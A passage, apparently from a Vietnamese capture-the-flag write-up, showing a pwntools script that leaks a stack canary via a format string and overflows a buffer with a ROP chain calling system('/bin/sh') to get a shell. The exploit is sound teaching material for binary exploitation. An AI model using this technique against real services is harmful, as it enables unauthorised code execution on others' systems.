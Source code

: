 ```python 
p.sendline(fmt_str_leak_canary)

p.recvuntil('[x]~> ')
canary = p.recvline()

canary = int(canary.strip(), 16)

print('Leak Canary: ', hex(canary))

# pass argument for function
pop_rdi_addr = offset_addr + rop.find_gadget(['pop rdi', 'ret'])[0]

system_addr = offset_addr + libc.symbols['system']

binsh_addr = offset_addr + list(libc.search(b'/bin/sh'))[0]


payload = b'N'*(0x110-0x8) + p64(canary) + b'N'*0x8 + \
    p64(pop_rdi_addr) + p64(binsh_addr) + p64(system_addr)

p.sendline('connect')
p.sendline('send')

p.recvuntil('[*]~> ')
p.sendline(payload)

p.interactive()

```


## Chạy script python

![image](https://user-images.githubusercontent.com/31529599/124378259-b6a24080-dcda-11eb-9b81-4e394f825bf5.png)

Xong, vậy là chúng ta đã chiếm được shell !!

